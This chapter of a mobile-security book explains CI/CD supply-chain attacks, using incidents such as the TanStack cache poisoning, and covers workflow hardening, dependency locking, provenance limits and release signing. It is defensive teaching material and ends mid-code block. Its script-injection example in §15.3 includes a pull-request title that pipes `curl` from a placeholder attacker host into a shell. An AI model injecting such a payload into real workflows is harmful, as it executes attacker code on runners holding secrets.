


# Part 6: The build and release pipeline

## Chapter 15: Why your pipeline is now the target

On 11 May 2026, someone opened a pull request against TanStack, a popular set of JavaScript libraries. Nobody merged it. It did not need merging: a workflow that ran automatically on pull requests saved a poisoned file into the project's build cache. Just under eight hours later the project's own, legitimate release workflow restored that cache, and 84 malicious package versions went out under TanStack's name *(reported; §15.1 has the detail)*.

That is the shape of the modern supply-chain attack. Your CI holds your signing keys, your store credentials and your cloud access. It runs code on every commit. And an attacker who owns it does not need to reverse engineer anything: they ship malicious code to your users **under your own signature**, through your own release channel.

Treat workflow files as production code with production privileges. That framing decides everything below.

Three terms used throughout. **CI/CD** (continuous integration and delivery) is the automation that builds, tests and releases your app; the examples here use GitHub Actions. A **runner** is the machine that executes a CI job. A **supply-chain attack** compromises something your build trusts (a dependency, a tool, a cache, a CI action) rather than your app directly.



*Figure 18: Trust boundaries in a mobile CI/CD pipeline*

Every control in this chapter defends one of those arrows. The dotted one is the one TanStack lost.

### 15.1 What actually happened

These are not hypotheticals, and each one maps to a control.

| Incident | When | What happened | The control it teaches |
|---|---|---|---|
| **Ultralytics** (PyPI) | 4–7 Dec 2024 | A `pull_request_target` workflow put a fork's branch name into a shell step; the injected code poisoned the Actions cache, and the release job published builds carrying a cryptominer. Two later builds used an old PyPI token nobody had revoked | Treat input as hostile; caches are inputs; revoke long-lived tokens |
| **tj-actions/changed-files** (CVE-2025-30066) | 14–15 Mar 2025 | The action's version tags were repointed to a malicious commit that dumped runner secrets into workflow logs, which are public on public repositories. Over 23,000 repositories used the action. The chain began with a leaked maintainer token and a compromised `reviewdog/action-setup@v1` (CVE-2025-30154) | Tags are mutable: pin to commit SHAs |
| **Nx "s1ngularity"** | 26 Aug 2025 | A PR title was echoed unsanitised in a `pull_request_target` workflow; the attacker obtained the npm publish token and shipped versions that used developers' installed AI coding CLIs to hunt for secrets | Never interpolate untrusted text into `run:` |
| **GhostAction** | disclosed 5 Sep 2025 | Workflows named "Github Actions Security" were pushed into 817 repositories belonging to 327 users and exfiltrated 3,325 secrets over HTTP | Workflow changes need review by someone who reads them |
| **Shai-Hulud**, two waves | Sep and Nov 2025 | A self-replicating npm worm. The second wave ("Sha1-Hulud: The Second Coming") registered infected machines as self-hosted runners named `SHA1HULUD` and dumped stolen credentials into tens of thousands of public repositories | Monitor runner registrations and new-repository creation |
| **aquasecurity/trivy-action** (CVE-2026-33634) | 19 Mar 2026 | 76 of 77 tags force-pushed, plus `setup-trivy` and a malicious Trivy release binary, all harvesting CI secrets. The root cause was an incident about three weeks earlier whose credential rotation was not simultaneous, leaving the attacker a valid token | Pin actions *and* tool binaries; a security scanner is still a dependency |
| **TanStack / "Mini Shai-Hulud"** | 11 May 2026 | Cache poisoning via a `pull_request_target` workflow, then OIDC token theft from the release runner's memory; 84 versions across 42 packages | Caches are a trust boundary; provenance is not cleanliness (§15.5) |
| **Megalodon** | 18 May 2026 | 5,718 malicious workflow commits to 5,561 repositories in about six hours, from throwaway accounts with forged bot author names | Automated attacks outrun manual review; enforce policy in settings |

All figures come from the maintainers' advisories and post-mortems or from the researchers who disclosed them *(reported)*; the sources are listed below.

**TanStack is the one to study**, because it defeated a team that had already removed long-lived publish tokens. The attacker's pull request triggered a bundle-size check running on `pull_request_target` (a trigger that runs with the base repository's permissions; §15.3). That job built the pull request's code and saved a poisoned pnpm store into the Actions cache. Just under eight hours later the real release workflow restored that cache. The malicious code found the runner process, read the job's short-lived OIDC token out of its memory, and published through npm's trusted-publishing path. No npm token was stolen, because none existed. *Lesson: short-lived credentials limit how long a stolen token is useful, not whether code running inside your release job can use it.*



*Figure 19: The TanStack compromise: a poisoned cache crosses from an untrusted job into the release job*

**Closer to home for mobile teams.** In June 2025, 17 packages in the React Native Aria / gluestack family, with over a million weekly downloads between them, were published with a remote-access trojan after an npm token without two-factor protection leaked *(reported)*. If you build with React Native, Expo or any npm-based tooling, the npm incidents above are your incidents. And malicious SDKs inside apps, such as the SparkCat OCR stealer Kaspersky found in both Google Play and App Store apps in 2025, are the same problem one layer up: code you shipped but did not write *(reported)*.

GitHub's **2026 Actions security roadmap** (26 March 2026) promises dependency locking, scoped secrets and an egress firewall for hosted runners; check which have shipped before relying on them, though nothing in this chapter depends on them.

Sources for this section: [GitHub roadmap](https://github.blog/news-insights/product-news/whats-coming-to-our-github-actions-2026-security-roadmap/), [GitHub supply-chain overview](https://github.blog/security/supply-chain-security/securing-the-open-source-supply-chain-across-github/), [TanStack post-mortem](https://tanstack.com/blog/npm-supply-chain-compromise-postmortem), [tj-actions advisory](https://github.com/advisories/GHSA-mrrh-fwg8-r2c3), [Trivy advisory](https://github.com/aquasecurity/trivy/security/advisories/GHSA-69fq-xp46-6x23), [PyPI on Ultralytics](https://blog.pypi.org/posts/2024-12-11-ultralytics-attack-analysis/), [Nx post-mortem](https://nx.dev/blog/s1ngularity-postmortem), [GitGuardian on GhostAction](https://blog.gitguardian.com/ghostaction-campaign-3-325-secrets-stolen/), [GitHub on Shai-Hulud](https://github.blog/security/supply-chain-security/our-plan-for-a-more-secure-npm-supply-chain/), [SafeDep on Megalodon](https://safedep.io/megalodon-mass-github-repo-backdooring-ci-workflows/).

### 15.2 Secrets: classify, then protect

Not every string is a secret, and treating them all identically makes people careless with the ones that matter.

| Class | Examples | Where it may live |
|---|---|---|
| **Not secret** | Public API base URLs, feature flags, public keys | Source control is fine. Encrypting these teaches your team that the secret store is bureaucracy |
| **Client identifier** | OAuth client IDs, Firebase configuration, Maps SDK keys | Necessarily ships in the app. Protect it **server-side** by restricting use to your package name and signing certificate (Android) or bundle ID (iOS): the identifier is public, the authorisation is not |
| **Restricted** | Any third-party key with quota or cost attached, including model-provider keys | **Proxy through your backend** (§12.3). Never in the app. If it is in the app, it is public, and now metered |
| **Never in the client** | Signing keys, service-account credentials, database credentials, store API keys | CI secret store only, exposed only to the job that needs it |

The operational rules follow from Chapter 2's finding that more than 64% of the secrets GitGuardian found valid in 2022 were still valid when it rechecked them in January 2026 (§2.2):

**When a secret leaks, rotate first, then clean history.** Not the other way round. Deleting the commit does not un-leak the credential; assume it was harvested within minutes of the push. Then purge history, add scanning, and check access logs for use of the old credential.

**Scan every push, blocking.** GitHub **push protection** rejects a push containing a recognised secret; it is free on public repositories and part of **GitHub Secret Protection** for private ones. GitGuardian and `trufflehog` do the same job and also scan history.

**Prefer short-lived credentials to stored ones** wherever the platform allows (§15.3), and remember TanStack's lesson that short-lived is not the same as safe.

**Audit your outputs, not just your inputs.** Run `strings` on your release artefact. This is the same experiment as Chapter 1 and it belongs in your release gate (§15.7).

Two current realities *(reported, GitGuardian 2026; see §2.2)*: public commits made with one AI coding agent (Claude Code) leaked secrets at 3.2%, against a 1.5% baseline across all public commits, so commit-time scanning is load-bearing for any team using coding agents; and if your tooling uses **MCP** (Model Context Protocol) servers, audit their configuration files specifically, because they exposed 24,008 unique secrets in GitGuardian's data and many scanning setups were not built with them in mind.

### 15.3 Hardening the workflow

Six controls, in the order I would apply them.

**1. Pin third-party actions to full-length commit SHAs.** Tags are mutable, as tj-actions and Trivy showed; a commit SHA is not. Keep the version in a trailing comment so the file stays readable:

```yaml
- uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
```

> **Trap:** the comment is not checked by anything, and a wrong one survives review for years because nobody reads SHAs. Let a tool write the pin and the comment (`pinact run` or StepSecurity's `secure-repo`), and resolve a SHA yourself with `git ls-remote --tags https://github.com/actions/checkout` rather than copying one from a blog.

Keep SHAs current with Dependabot, and add a **cooldown**, so you do not adopt a release in the first days after publication, which is when compromised releases are usually caught. Dependabot has applied a three-day default cooldown to version updates since July 2026; security updates are not delayed. Set a longer one explicitly for actions:

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: "github-actions"
    directory: "/"
    schedule:
      interval: "weekly"
    cooldown:
      default-days: 7
    groups:
      actions:
        patterns: ["*"]
        update-types: ["minor", "patch"]
```

Then enforce it. GitHub's allowed-actions policy (since August 2025) has a **Require actions to be pinned to a full-length commit SHA** setting at enterprise, organisation and repository level, and supports `!` entries that block a named action outright. **Immutable releases** (generally available since October 2025) let an action's author make a release's tag and assets unchangeable, but only for authors who turned it on, and the floating major-version tags most workflows reference, such as `v7`, are not covered, so pin anyway.

**2. Deny token permissions by default.** Every workflow run receives a `GITHUB_TOKEN`. Set `permissions: {}` at workflow level so it can do nothing, and grant the minimum per job. Since 2 February 2023, *new* enterprises, organisations and personal repositories default to a read-only token; existing ones kept whatever they had, and repositories inherit their organisation's setting. An older organisation may still hand every workflow a read-write token, so check *Settings → Actions → General* rather than assuming.

```yaml
permissions: {}          # workflow level: deny everything
jobs:
  build:
    runs-on: ubuntu-latest
    permissions:
      contents: read     # job level: only what this job needs
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false   # do not leave the token on disk for later steps
      - run: ./gradlew assembleDebug
```

**3. Replace static cloud credentials with OIDC.** OpenID Connect (OIDC) lets a job ask GitHub for a signed token that says, in effect, "I am this workflow, on this branch, of this repository". Your cloud provider checks it and exchanges it for temporary credentials. A stored key is valid indefinitely and portable the moment it leaks; an OIDC token is issued for a single job and expires within minutes. AWS, Azure and Google Cloud all support it. Scope the cloud-side trust policy to the repository, branch *and* environment, never the whole organisation.

For package publishing, use **trusted publishing**, the same idea applied to registries; npm (generally available since July 2025) and PyPI support it. Scope it to the **exact workflow filename**, and pair it with branch protection that requires pull requests and blocks force pushes.

**4. Treat all external input as hostile.** PR titles, issue bodies, branch names and commit messages are attacker-controlled. GitHub expands `${{ }}` expressions *before* the shell runs, so an expression inside `run:` becomes part of your script. That is **script injection**, and it is how Ultralytics and Nx fell:

```yaml
# Wrong: a PR titled   x"; curl -s https://evil.example | sh; echo "   runs as your script
- run: echo "Checking ${{ github.event.pull_request.title }}"

# Right: pass it as data through the environment, and quote it
- env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: echo "Checking $PR_TITLE"
```

Be especially careful with **`pull_request_target`**. Unlike `pull_request`, it runs in the context of your base repository, with your secrets and a token that can write, even when the pull request comes from a fork. It is the Ultralytics, Nx and TanStack vector. GitHub has tightened it in stages: since 8 December 2025 the workflow definition always comes from the default branch; since mid-2026 `actions/checkout` (v7 from June, backported to the other supported majors in July) refuses to check out a fork's code in this context, or in `workflow_run`, unless you set `allow-unsafe-pr-checkout`; and a default *workflow execution protections* rule disables `pull_request_target` in public repositories from 2 November 2026 unless you opt back in. TanStack fell after the first of these changes, because its workflow deliberately built the fork's code. If you need the trigger, never check out or run the fork's code in that job, and never let it write a cache or artefact another workflow will consume.

Run workflow linters in CI to catch these mechanically: **actionlint** checks syntax and expression misuse, and **zizmor** flags security problems such as template injection, dangerous triggers, unpinned actions and persisted credentials.

**5. Put workflow files under review.** Add a `CODEOWNERS` entry pointing `.github/workflows/` at someone who understands the implications, and require code-owner approval in branch protection or a ruleset. Without it, anyone with write access can change what runs with your secrets. Be suspicious of external pull requests that modify pinned versions.

**6. Harden and watch the runners.** Prefer GitHub-hosted or other ephemeral runners, so nothing persists between jobs. Never let self-hosted runners pick up jobs from public-repository pull requests. Alert on **new runner registrations** and **new repository creation** in your organisation — both would have surfaced Shai-Hulud's second wave early.

### 15.4 Dependencies and build inputs

Your build consumes more than your own code. Each input below is something an attacker can influence if you leave it unpinned.

**Lock your dependencies.** Enable Gradle dependency locking and commit the lockfiles, plus `Gemfile.lock` for fastlane and `Package.resolved` for Swift packages. An unlocked build silently resolves a different version a month later and nobody notices.

```kotlin
// build.gradle.kts (each module, or once in a convention plugin)
dependencyLocking {
    lockAllConfigurations()
}
```

Write the lockfiles with `./gradlew dependencies --write-locks` for each module (or any task that resolves every configuration) and commit the resulting `gradle.lockfile`.

**Enable Gradle dependency verification**, so a swapped artefact fails the build rather than shipping. `./gradlew --write-verification-metadata sha256 help` writes `gradle/verification-metadata.xml`; commit it and review changes to it like code.

**Generate an SBOM per build and scan it.** A **software bill of materials** (SBOM) lists every component in the artefact. The CycloneDX Gradle plugin produces one; the OWASP Dependency-Check plugin flags known CVEs before release. MASTG-TEST-0274 (Android) and MASTG-TEST-0275 (iOS), both *Dependencies with Known Vulnerabilities in the App's SBOM*, test exactly this.

**Audit what your dependencies request.** Check permissions in the *merged* manifest (Android Studio's Merged Manifest tab), not just the ones you declared. A UI animation library requesting location or contacts deserves a question.

**Treat caches as inputs.** A poisoned cache is a supply-chain attack with no dependency change to review. GitHub scopes caches by branch: a `pull_request` run's cache is visible only to that pull request, and current documentation says only trusted triggers such as `push`, `schedule` and `workflow_dispatch` can write the default-branch caches that every branch reads, while `pull_request_target` runs may only read them. A `cache-mode` control (generally available since September 2026) lets you make each job's access explicit. Do not assume those rules applied when your existing caches were written, and for release builds consider restoring no shared cache at all: a slower release is cheaper than a poisoned one.

**Pin your toolchain**, not just your libraries: the Gradle wrapper with `distributionSha256Sum` in `gradle/wrapper/gradle-wrapper.properties` (Gradle checks it when it downloads the distribution, and `gradle/actions/setup-gradle` validates the wrapper JAR's checksum by default), a fixed JDK, `.ruby-version`, and fastlane pinned in `Gemfile.lock`, so CI and every laptop run identical versions.

### 15.5 Provenance, and the uncomfortable thing about it

**Build provenance** is a signed statement about how an artefact was produced: which source commit, which build platform, which workflow. **SLSA** (Supply-chain Levels for Software Artifacts, the project's own spelling) defines how far such a statement can be trusted. The current version, SLSA v1.2, has a **Build track** with four levels: **L0**, no guarantees; **L1**, provenance exists; **L2**, provenance is signed and generated by a hosted build platform; **L3**, the platform is hardened so that runs are isolated from one another and the signing material is out of reach of the build's own steps. v1.2 also adds a **Source track** for the repository side.

**Sigstore** is the open signing infrastructure most of this runs on. It issues short-lived signing certificates tied to a workload's OIDC identity and, on its public-good instance, records every signature in a public transparency log, so there is no long-lived signing key to steal. GitHub's **artifact attestations** (`actions/attest`, which the older `actions/attest-build-provenance` now wraps; verified with `gh attestation verify`) use it, and give SLSA Build L2 by default on GitHub-hosted runners, or L3 when the build runs in a reusable workflow. Two limits matter for a mobile team, because most app repositories are private. Artifact attestations in private or internal repositories need **GitHub Enterprise Cloud**; on the Free, Pro and Team plans they work only in public repositories. And private repositories are signed by GitHub's own Sigstore instance, which has **no transparency log**, so the public, append-only record is a public-repository property ([GitHub Docs](https://docs.github.com/en/actions/concepts/security/artifact-attestations)).

Provenance is genuinely valuable. It is also routinely oversold, and TanStack is the proof. **The malicious packages published in that attack carried valid, signed SLSA provenance, and verification reported them as genuine** *(reported by Snyk, which calls them valid SLSA Build Level 3 attestations, and by StepSecurity; TanStack's own post-mortem lists provenance checks only as a follow-up and does not say whether the attestations verified)*.

The reason is precise and worth internalising: **provenance attests to the process, not to the cleanliness of the inputs.** The build genuinely ran on the declared platform, from the declared repository, through the declared workflow. It just restored a poisoned cache. Everything the attestation claimed was true, and the artefact was still malicious. *(reasoned)* L3's isolation stops one run tampering with another run's environment; a cache your own workflow chooses to restore is an input you accepted, and no level of provenance vouches for what was in it.

So when someone in a design review says "we have provenance, our supply chain is verified," the correct response is that provenance closes the *substitution* attack, meaning someone publishing an artefact that did not come from your build. It does nothing about a compromised input. You still need §15.4's controls on what enters the build.

### 15.6 Signing keys and release integrity

This is the part that decides whether an attacker can ship code as you.

**Android: use Play App Signing.** Google holds the **app signing key**, the key whose certificate users' devices check on every update; you hold an **upload key**, used only to prove to Google that an upload came from you. The property that matters: if your upload key is stolen, the attacker still **cannot produce an update that users' devices will accept** without also getting into your Play Console account, and you can ask Google to reset the upload key (**Play Console → Protected with Play → Play Store protection → Manage Play app signing → Request upload key reset**). Without the split, a stolen signing key lets an attacker sign updates that install over yours through any sideloading channel, and there is no way to take the key back. Play App Signing has been required for new apps since August 2021, when the Android App Bundle became mandatory; older apps can opt in. New apps are now enrolled by default in Play's quantum-ready **hybrid signing**, which adds a post-quantum ML-DSA-65 signature (APK Signature Scheme v3.2, checked by Android 17 and later) alongside a classical RSA one, so Play Console lists more than one app signing certificate; the upload-key model is unchanged ([Play Console Help](https://support.google.com/googleplay/android-developer/answer/9842756)).

One more reason to guard your Play Console account as closely as your keys: Android's developer verification (Chapter 0.4) ties installation on certified devices to a verified developer identity: first, from 30 September 2026, for installs from Play and partner stores in four countries, then, from 2027, for all apps, including those installed from outside Play.

**Keystore handling in CI.** Store the upload keystore base64-encoded in the CI secret store (or encrypted in the repository with the passphrase in the secret store). Decode it at build time into a temporary path and delete it afterwards. Never commit `key.properties` or a `gradle.properties` containing passwords — a leaked `gradle.properties` with a signing password has the same blast radius as a leaked server key.

And **fail the build when release signing is missing**, rather than silently producing an artefact the store rejects on upload, or worse, one signed with a key nobody meant to use:

```kotlin
// app/build.gradle.kts
val uploadKeystore: String? = System.getenv("UPLOAD_KEYSTORE_PATH")
val wantsRelease = gradle.startParameter.taskNames.any { it.contains("Release", ignoreCase = true) }
if (wantsRelease && uploadKeystore == null) {
    throw GradleException("Release signing is not configured: UPLOAD_KEYSTORE_PATH is unset")
}

android {
    signingConfigs {
        create("release") {
            if (uploadKeystore != null) {
                storeFile = file(uploadKeystore)
                storePassword = System.getenv("UPLOAD_KEYSTORE_PASSWORD")
                keyAlias = System.getenv("UPLOAD_KEY_ALIAS")
                keyPassword = System.getenv("UPLOAD_KEY_PASSWORD")
            }
        }
    }
    buildTypes {
        release {
            signingConfig = signingConfigs.getByName("release")
        }
    }
}
```

**iOS: use `fastlane match`, or Xcode Cloud's managed signing.** `match` keeps certificates and provisioning profiles encrypted in a private store (a git repository, Google Cloud Storage, S3 or GitLab Secure Files), installs them into a temporary keychain for the build, and cleans up afterwards. Authenticate to App Store Connect with an **App Store Connect API key** rather than an Apple ID: no interactive two-factor prompt, a role you choose, and revocation without touching anyone's account. Use a **team key** for CI (an Admin creates it); individual keys cannot call the provisioning endpoints that `match` needs. On iOS, Apple re-signs App Store builds for distribution, so for an attacker the prize is your App Store Connect access rather than your distribution certificate *(reasoned)*.

**Both platforms.** Give store service accounts the **minimum role** — a key that can publish to production when it only needs the internal track is standing risk for no benefit. Put the release job behind a GitHub **environment** with required reviewers, so a production upload needs a human approval that a compromised workflow cannot give itself. And keep releases **auditable**: tag the commit, record which workflow run produced the artefact, retain the build log and the provenance. When someone asks "what exactly is in production," you want an answer rather than an investigation.

Putting §15.3 to §15.6 together, a release job looks like this:

```yaml
# .github/workflows/release.yml
name: release
on:
  push:
    tags: ["v*"]

permissions: {}

jobs:
  release:
    runs-on: ubuntu-latest
    environment: production        # required reviewers are configured on this environment
    permissions:
      contents: read
      id-token: write              # OIDC token, used by Sigstore to sign the attestation
      attestations: write          # store the attestation on the repository
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - uses: actions/setup-java@de7274f081f381c8f8158605e0321c36c376e2e6 # v6.0.1
        with:
          distribution: temurin
          java-version: "21"
      - uses: gradle/actions/setup-gradle@9c971963bec38e04b3d30dcc455b5382be2fdbfb # v6.3.0
        with:
          cache-disabled: true     # the release build restores no shared cache
      - name: Decode upload keystore
        env:
          UPLOAD_KEYSTORE_B64: ${{ secrets.UPLOAD_KEYSTORE_B64 }}
        run: |
          printf '%s' "$UPLOAD_KEYSTORE_B64" | base64 --decode > "$RUNNER_TEMP/upload.jks"
          echo "UPLOAD_KEYSTORE_PATH=$RUNNER_TEMP/upload.jks" >> "$GITHUB_ENV"
      - name: Build signed bundle
        env:
          UPLOAD_KEYSTORE_PASSWORD: ${{ secrets.UPLOAD_KEYSTORE_PASSWORD }}
          UPLOAD_KEY_ALIAS: ${{ secrets.UPLOAD_KEY_ALIAS }}
          UPLOAD_KEY_PASSWORD: ${{ secrets.UPLOAD_KEY_PASSWORD }}
        run: ./gradlew --no-daemon bundleRelease
      # Needs a public repo, or GitHub Enterprise Cloud for a private one (§15.5);
      # on a private repo on Free, Pro or Team this step fails, so remove it there.
      - uses: actions/attest@1e69f48acb82d1966a394da916b4c1698aa569d6 # v4.2.2
        with:
          subject-path: app/build/outputs/bundle/release/app-release.aab
      - name: Remove keystore
        if: always()
        run: rm -f "$RUNNER_TEMP/upload.jks"
```

The upload to Play or App Store Connect follows, using a service account or API key scoped to the track you actually release to. The SHAs above were current when this chapter was checked; let Dependabot move them.

### 15.7 Verify what actually shipped

A perfect pipeline can still produce a bad artefact. Check the output, in an automated release-gate job rather than when someone remembers.

Run `strings` and a decompiler on the **release** build. Confirm `debuggable` is false, logging is stripped, and no debug network configuration survived. Confirm the artefact is signed with the expected key. Diff the dependency tree against the previous release and ask about anything new. The exact commands are at the end of §15.8.

### 15.8 Build configuration, in code

The pipeline sections cover secrets and supply chain. This is the build configuration itself, which is where several cheap protections live.

#### Android: R8 rules with security in mind

R8 runs in full mode by default on current Android Gradle Plugin versions, and it reads the keep rules that libraries ship inside their AARs and JARs (**consumer rules**). That changes the advice: most keep rules copied from older blog posts are now unnecessary, and every unnecessary one weakens obfuscation.

```proguard
# app/proguard-rules.pro

# Libraries such as kotlinx.serialization, Tink, OkHttp and Retrofit ship
# their own consumer rules. Do not add blanket rules like
#   -keep class com.google.crypto.tink.** { *; }
# Each one stops R8 renaming and shrinking the whole library, and hands
# an attacker readable names for your crypto layer.

# Keep only what YOUR code reaches by reflection, by exact name. Example:
# a class instantiated with Class.forName() from a configuration string.
# -keep class com.example.plugins.ExportPlugin { <init>(); }

# DO NOT add keep rules for your security detection classes.
# Letting R8 rename them is the point: an attacker searching the
# decompiled output for "RootSignals" should find nothing.

# Strip verbose, debug and info logging calls from release builds.
-assumenosideeffects class android.util.Log {
    public static int v(...);
    public static int d(...);
    public static int i(...);
}
```

The detection-class comment is the part worth internalising *(reasoned)*, and it is the opposite of most keep-rule advice. Every `-keep` rule you add is a name you have handed to an attacker. Keep what reflection genuinely requires, and nothing else — especially not the classes whose job is to be hard to find.

> **Trap:** `-assumenosideeffects` removes the *call* to `Log.d(...)`, but the code that builds the message can survive if R8 cannot prove it has no side effects. A token you concatenate into a log line may still be computed, and its format string may still sit in the DEX. The rule also does nothing for Timber or other wrappers; §6.6's release tree handles those. Keep sensitive values out of log messages in the first place.

#### Android: separate debug and release properly

```kotlin
// app/build.gradle.kts
android {
    buildFeatures {
        buildConfig = true   // off by default since AGP 8.0
    }
    buildTypes {
        debug {
            isDebuggable = true
            buildConfigField("Boolean", "VERBOSE_NETWORK_LOGS", "true")
        }
        release {
            isDebuggable = false
            isMinifyEnabled = true
            isShrinkResources = true
            proguardFiles(
                getDefaultProguardFile("proguard-android-optimize.txt"),
                "proguard-rules.pro"
            )
            buildConfigField("Boolean", "VERBOSE_NETWORK_LOGS", "false")
        }
    }
}
```

Two AGP 9 notes. `getDefaultProguardFile()` now accepts only `proguard-android-optimize.txt`; the old `proguard-android.txt` (which disabled optimisation) is rejected by default (the `android.r8.proguardAndroidTxt.disallowed` flag, which a project can still turn off). And AGP 9.3 introduced a new `optimization { enable = true }` block with keep files under `src/<variant>/keepRules`, which Google's documentation now presents as the replacement for `isMinifyEnabled` and `isShrinkResources`. The properties above still work; move to the new block when your AGP version supports it, following <https://developer.android.com/topic/performance/app-optimization/enable-app-optimization>. AGP 9 also makes R8 stricter about keep rules by default (`android.r8.strictFullModeForKeepRules`): `-keep class A` no longer implies keeping its constructor, so name `<init>` explicitly where reflection needs it, as the example rule above does.

The `BuildConfig` flag pattern is how you get a testable app without shipping a testable app. But note the risk it introduces: **a flag that relaxes security is a flag an attacker would love to flip.** Never gate pinning, certificate trust or security checks on a `BuildConfig` boolean; a `false` constant lets R8 delete the guarded branch only if nothing else keeps it alive. Put debug-only behaviour in the `src/debug/` source set instead (for example a `network_security_config.xml` with `<debug-overrides>`, §7.1), so the code does not exist in the release variant at all, and verify by inspecting the release artefact (§15.7) rather than trusting the configuration.

#### iOS: strip the release build

Set these in Build Settings for the Release configuration:

| Setting | Value | Why |
|---|---|---|
| `DEPLOYMENT_POSTPROCESSING` | `YES` | Archive turns it on anyway; setting it makes a plain Build of the Release configuration strip too, since without it the strip settings below do nothing |
| `STRIP_INSTALLED_PRODUCT` | `YES` | Strip symbols from the shipped binary |
| `STRIP_STYLE` | `all` for an app, `non-global` for a dynamic framework | How much to strip |
| `STRIP_SWIFT_SYMBOLS` | `YES` | Also removes Swift symbols when the binary is stripped |
| `DEBUG_INFORMATION_FORMAT` | `dwarf-with-dsym` | Keep the symbols, but in a separate dSYM rather than the binary |
| `SWIFT_OPTIMIZATION_LEVEL` | `-O` | Release optimisation (note that `assert` is not evaluated) |
| `ENABLE_TESTABILITY` | `NO` | When `YES`, Xcode exports internal symbols for tests and skips stripping altogether |

Do not set `GCC_GENERATE_DEBUGGING_SYMBOLS` to `NO`, as some checklists advise: it stops Xcode producing the dSYM you need. Keep the generated dSYM files somewhere you can retrieve them — you need them to symbolicate crash reports, and stripping the binary is precisely what makes them necessary. Upload them to your crash reporter from CI, not from a laptop.

#### Injecting configuration at build time

**Android**, reading from a file CI writes and `.gitignore` excludes, falling back to the environment:

```kotlin
// app/build.gradle.kts
import java.util.Properties

val localProps = Properties().apply {
    val f = rootProject.file("local.properties")
    if (f.exists()) f.inputStream().use { load(it) }
}

fun config(name: String): String =
    localProps.getProperty(name) ?: System.getenv(name)
        ?: throw GradleException("Missing build configuration: $name")

android {
    buildFeatures { buildConfig = true }
    defaultConfig {
        buildConfigField("String", "API_BASE_URL", "\"${config("API_BASE_URL")}\"")
        manifestPlaceholders["mapsApiKey"] = config("MAPS_API_KEY")
    }
}
```

```yaml
# .github/workflows/release.yml (steps of the release job)
- name: Write local.properties
  env:
    API_BASE_URL: ${{ vars.API_BASE_URL }}
    MAPS_API_KEY: ${{ secrets.MAPS_API_KEY }}
  run: |
    printf 'API_BASE_URL=%s\n' "$API_BASE_URL" >> local.properties
    printf 'MAPS_API_KEY=%s\n' "$MAPS_API_KEY" >> local.properties
- run: ./gradlew bundleRelease
```

`config()` runs at configuration time, so it throws for every build, including debug builds, a fresh clone and §15.3's check job, not only release. Give those jobs non-secret placeholder values (for example `MAPS_API_KEY=unused`), or fall back to a placeholder for non-release builds.

The values go through `env:` rather than being pasted into the script, for the same reason as §15.3's injection rule. The API base URL is a repository *variable*, not a secret, because it is not secret (§15.2). The Maps key is a client identifier: it ships in the app whatever you do, so restrict it by package name and certificate in the provider's console.

**iOS**, using an `.xcconfig` that CI generates and source control ignores:

```text
// Secrets.xcconfig  (gitignored; CI writes it)
API_HOST = api.example.com
```

Reference it from `Info.plist` as `$(API_HOST)` and read it with `Bundle.main.object(forInfoDictionaryKey: "API_HOST") as? String`.

> **Trap:** in `.xcconfig` files `//` starts a comment, even inside a value. `API_URL = https://api.example.com` is silently read as `https:`. Store the host and build the URL in code.

**Remember what this does and does not achieve.** Build-time injection keeps values out of source control — which is §15.2's actual goal. It does **not** keep them out of the app: anything in `BuildConfig`, a manifest placeholder or `Info.plist` is in the binary and recoverable with `strings`. Only the classification in §15.2 decides what may ship at all, and anything genuinely sensitive belongs behind the BFF (§12.3).

#### Verify it

Build configuration is the area where the source and the artefact most often disagree, so check the artefact. For an App Bundle, check the signature on the `.aab` itself, then unpack a universal APK only to inspect its contents. Do not check the signer on that APK: without `--ks`, `bundletool` signs it with your local debug key, and the APK a device actually receives is signed by Google's app signing key, which you cannot reproduce locally.

```bash
# Who signed the bundle CI produced? Compare with the UPLOAD certificate.
keytool -printcert -jarfile app-release.aab

